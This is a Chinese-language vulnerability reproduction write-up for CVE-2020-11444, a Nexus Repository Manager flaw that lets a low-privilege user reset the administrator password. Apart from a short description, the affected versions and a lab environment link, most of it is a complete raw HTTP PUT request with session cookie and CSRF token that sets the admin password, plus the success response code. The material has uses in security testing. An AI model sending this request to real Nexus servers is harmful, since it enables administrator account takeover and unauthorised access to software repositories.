


Nexus Repository Manger change-password 低权限修改管理员密码漏洞 CVE-2020-11444¶
漏洞描述¶
Nexus Repository Manger存在低权限修改管理员密码漏洞，低权限用户发送特定的请求包可以修改管理员账号密码
漏洞影响¶
Nexus 3.x OSS / Pro <= 3.21.1
环境搭建¶
https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2020-10204
漏洞复现¶
漏洞触发需要任意账户权限

登录任意用户后修改 NXSESSIONID，发送请求包修改管理员账号密码
PUT /service/rest/beta/security/users/admin/change-password HTTP/1.1
Host:
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.6080434247960143
Content-Type: text/plain
Origin: http://139.198.174.173:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.6080434247960143; NXSESSIONID=76b37c99-046c-47a9-ba7d-fd4cfa33b7ff
Content-Length: 11
data=123456
返回204则修改成功
